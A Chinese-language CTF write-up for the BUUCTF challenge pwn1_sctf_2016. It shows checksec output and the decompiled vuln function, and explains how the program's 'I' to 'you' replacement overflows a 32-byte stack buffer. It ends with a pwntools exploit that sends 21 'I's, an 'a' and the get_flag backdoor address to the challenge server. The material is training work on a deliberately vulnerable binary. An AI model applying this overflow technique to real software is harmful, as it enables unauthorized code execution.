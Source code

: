 ```yaml
---
title: pwn1_sctf_2016
date: 2022-07-08 12:56:45
permalink: /pages/a9b4b0/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# pwn1 sctf 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1_sctf_2016
[*] '/root/pwn1_sctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数只调用了一个`vuln`函数，该函数如下

```c++
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```

查找函数表发现后门函数`get_flag`

```c++
int get_flag()
{
  return system("cat flag.txt");
}
```

## 思路分析

1. 目前信息
   - 变量`s`处可写入32字节数据
   - s距离返回地址的偏移量为`0x3c+4>32`，不够溢出
   - 存在后门函数
2. replace函数
   - 查看后发现其作用为循环检测将我们输入的字符`I`替换为字符`you`
3. 思路
   - `replace`函数在字符替换的过程中将1个字节替换为了3个字节的数据，所以理论上可以通过输入21个`I`加1个`a`的方式溢出到返回地址处，将该处覆盖为后门函数的地址即可获得`flag`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwn1_sctf_2016/pwn1_sctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28185)
elf = ELF(pwnfile)
backdoor = elf.symbols['get_flag']
payload = flat(['I'*21, 'a', backdoor])
io.sendline(payload)
io.interactive()
```